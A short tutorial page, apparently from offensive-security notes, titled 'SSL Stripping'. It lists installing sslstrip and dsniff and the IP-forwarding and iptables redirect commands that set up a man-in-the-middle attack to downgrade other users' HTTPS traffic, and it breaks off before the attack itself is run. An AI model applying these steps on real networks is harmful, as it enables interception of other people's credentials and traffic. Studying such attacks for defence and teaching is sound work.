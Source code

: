 ```yaml
---
title: SSL Stripping 
type: docs
---
```


After we connect to a network we can see all traffic on it, which is not very useful because most important traffic is encrypted.  
Install `sslstrip` and `dsniff`  

`echo 1 > /proc/sys/net/ipv4/ip_forward`
Add rule - `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`  
Verify Rule - `iptables -t nat -L PREROUTING`

Ensure redirect port is open - `iptables -I INPUT 1 -P tcp --dport 8080`
